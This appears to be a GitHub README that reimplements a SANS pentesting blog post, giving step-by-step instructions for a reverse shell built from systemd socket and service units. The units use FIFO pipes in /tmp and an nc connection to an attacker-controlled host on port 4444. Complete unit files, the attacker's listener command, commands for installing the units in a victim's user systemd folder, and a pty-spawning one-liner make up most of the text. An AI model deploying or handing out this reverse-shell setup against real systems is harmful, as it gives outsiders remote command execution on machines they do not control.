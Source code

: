# Netcat Without The E

## Description

**NOTE**: This is a reimplementation of Ed Skoudis' "Netcat without -e? No Problem!" blog post.
Unfortunately, it looks like the original blog post has been moved/taken down, but a version on The Internet Archive still exists.
Link in Additional Notes.

This sequence of commands sets up a reverse shell using two separate services - a `nc` one and a `sh` one -
which interact by sharing FIFO pipes set up in `/tmp`. A third service is used to activate the shell, but it could easily be
replaced by a simple `echo` command on its own.

The socket files (`frontpipe.socket` and `backpipe.socket`) are nearly identical and use:

* The `ListenFIFO` directive to identify what FIFO file to use (and create if it doesn't exist)
* The `SocketMode` directive to set the correct permissions on the FIFO file
* The `RemoveOnStop` directive to delete the FIFO pipes when the sockets are stopped
* The `Service` directive to activate the specific command to execute when each socket gets data
  * Note which socket activates which service

The shell service file (`revsh.service`) uses:

* The `ExecStart` directive to execute the terminal shell (additional shell redirects can be found in the link embedded in the file; **not my repository**)
* The `StandardInput` directive uses the FIFO pipe `/tmp/backpipe` as a stream of commands to process
* The `StandardOutput` directive uses the FIFO pipe `/tmp/frontpipe` as a stream to send command output to
* The `Requires` directive to ensure the FIFO pipes have been setup ahead of time

The netcat service file (`revnc.service`) uses:

* The `Environment` directive to set up the remote host and port to connect to
* The `ExecStart` directive to execute the backdoor sequence (more info on how it works located in the linked blog below)
* The `StandardInput` directive uses the FIFO pipe `/tmp/frontpipe` as a stream of command output to display to the attacker
* The `StandardOutput` directive uses the FIFO pipe `/tmp/backpipe` as a stream of commands for the shell service to process
* The `Requires` directive to ensure commands can be executed

The initializer service file (`revinit.service`) uses:

* The `Type` directive to tell systemd it doesn't need to treat this like a daemon
* The `StandardOutput` directive uses the FIFO pipe `/tmp/backpipe` to notify `revsh.service` to activate once data is in its StandardInput file
* The `ExecStart` directive to specify what command to execute in the shell first
* The `Requires` directive to ensure the remote connection is up

## Additional Notes

* [Netcat without -e? No Problem!](https://web.archive.org/web/20190305102845/https://pen-testing.sans.org/blog/2013/05/06/netcat-without-e-no-problem/)
* The socket units do not turn off automatically when the shell exits
* The message that initializes the shell simply invokes `bash` in a subshell, which gives the attacker access to tab-completion and various special characters that a regular `sh` would not
* Another way to visualize how the I/O streams are set up is:

  ```txt
                -->  /bin/sh  -->
  /tmp/backpipe |               | /tmp/frontpipe
                <--  /bin/nc  <--
  ```

* These units are set up in a hierarchy, so when the last unit (`revinit.service`) is activated, it automatically pulls in
  the other ones in the appropriate order. Here's a diagram of the unit startup - parallel units are on the same line:

  ```txt
  1. backpipe.socket       frontpipe.socket
                 |           |
  2.             revsh.service
                      |
  3.             revnc.service
                      |
  4.            revinit.service      <-- start this one to activate the others
  ```

## Step by Step

1. Stand up listener on attacker server

```sh
$ nc -nlvp 4444
listening on [any] 4444 ...
```

2. Generate the FIFO socket files

```ini
; https://www.freedesktop.org/software/systemd/man/systemd.socket.html
[Unit]
Description=backpipe socket

[Socket]
ListenFIFO=/tmp/backpipe
SocketMode=0666
Service=revsh.service
```

```ini
; https://www.freedesktop.org/software/systemd/man/systemd.socket.html
[Unit]
Description=frontpipe socket

[Socket]
ListenFIFO=/tmp/frontpipe
SocketMode=0666
Service=revnc.service
```

3. Generate the service files

```ini
; https://www.freedesktop.org/software/systemd/man/systemd.service.html
[Unit]
Description=A simple reverse shell - sh half
Requires=backpipe.socket
Requires=frontpipe.socket

[Service]
Type=simple
; https://github.com/fijimunkii/bash-dev-tcp
StandardInput=file:/tmp/backpipe
StandardOutput=file:/tmp/frontpipe
ExecStart=/bin/sh
```

```ini
; https://www.freedesktop.org/software/systemd/man/systemd.service.html
[Unit]
Description=A simple reverse shell - nc half
Requires=revsh.service

[Service]
Type=simple
StandardInput=file:/tmp/frontpipe
StandardOutput=file:/tmp/backpipe
Environment=RHOST="10.10.10.10" RPORT="4444"
ExecStart=/usr/bin/nc ${RHOST} ${RPORT}
```

```ini
; https://www.freedesktop.org/software/systemd/man/systemd.service.html
[Unit]
Description=A simple reverse shell - initializing the pipe
Requires=revnc.service

[Service]
Type=oneshot
StandardOutput=file:/tmp/backpipe
ExecStart=/usr/bin/echo "python -c \"import pty;pty.spawn('/bin/bash')\""
```

4. Install sockets and services into the systemd user folder on the victim and reload the units

```sh
$ mkdir -p ~/.config/systemd/user/
$ for unit in `ls *.{socket,service}`
do ln -s `pwd`/$unit ~/.config/systemd/user
done
$ systemctl --user daemon-reload
```

6. Start the last required service

```sh
$ systemctl --user start revinit.service
```

7. Wait for the shell!

```sh
$ nc -nvlp 4444
listening on [any] 4444 ...
connect to [${attacker}] from (UNKNOWN) [${victim}]
user@victim:~$
```

